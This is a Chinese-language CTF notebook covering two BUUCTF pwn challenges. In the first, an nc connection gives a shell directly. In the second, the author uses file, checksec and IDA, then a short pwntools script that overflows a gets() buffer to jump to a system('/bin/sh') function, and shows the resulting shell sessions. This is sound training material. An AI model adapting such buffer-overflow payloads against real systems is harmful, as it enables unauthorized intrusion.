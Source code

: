 # PWN做题笔记

## 练习记录

### [PWN-test_your_nc](https://buuoj.cn/challenges#test_your_nc)

下载程序文件，使用 `file` 命令查看，发现这是个 Debian 64 位程序

使用 IDA 64 进行静态分析，找到主程序

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  system("/bin/sh");
  return 0;
}
```

emmmmmmmm...

显然直接 `nc` 到服务器里即可获得 flag

```shell
┌──(hervey㉿Hervey)-[~]
└─$ nc node5.buuoj.cn 29833
ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
media
mnt
opt
proc
pwn
root
run
sbin
srv
sys
tmp
usr
var
cat flag
flag{<flag here>}
```

### [PWN-rip](https://buuoj.cn/challenges#rip)

下载后获得文件 pwn1

先使用 `file` 命令查看文件类型，发现是一个 ELF 64 位程序

```shell
┌──(hervey㉿Hervey)-[/mnt/c/Users/zhwaa/Downloads]
└─$ file pwn1
pwn1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=1c72ddcad651c7f35bb655e0ddda5ecbf8d31999, not stripped
```

接着使用 `checksec` 命令识别安全属性

```shell
┌──(hervey㉿Hervey)-[/mnt/c/Users/zhwaa/Downloads]
└─$ checksec --file=pwn1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   64 Symbols        No    0               1               pwn1
```

可以发现无任何栈保护

使用 IDA 64 进行逆向

`main()` 函数

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[15]; // [rsp+1h] [rbp-Fh] BYREF

  puts("please input");
  gets(s, argv);
  puts(s);
  puts("ok,bye!!!");
  return 0;
}
```

同时我们还能找到一个 `fun` 函数

```c
int fun()
{
  return system("/bin/sh");
}
```

所以我们的目标应该是利用 `gets()` 这个危险函数的缓冲区溢出漏洞，将 `s` 变量数据溢出到覆盖返回地址，实现跳转到执行 `system("/bin/sh")` 进而去获得 flag

使用 IDA 64 可以轻松地获取 `s` 的地址为 `[rbp-Fh]`

点击 `fun()` 在窗口左下角可以获得该函数位于 `0x401186`

![PWN-rip-1](./Notes-on-PWN/PWN-rip-1.png)

当然，也可以直接从汇编界面找到该函数的地址

![PWN-rip-2](./Notes-on-PWN/PWN-rip-2.png)

![PWN-rip-3](./Notes-on-PWN/PWN-rip-3.png)

由此我们可以写出脚本

```python
from pwn import *
p = remote("<IP Address>", <Port>)
payload = b'A' * 0xF + p64(0x401186)
p.sendline(payload)
p.interactive()
```

运行该脚本，进入容器终端

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ python3 ./sol.py
[+] Opening connection to <IP Address> on port <Port>: Done
[*] Switching to interactive mode
$ ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
media
mnt
opt
proc
pwn
root
run
sbin
srv
sys
tmp
usr
var
$ cat flag
flag{<flag here>}
```

进而获得 flag
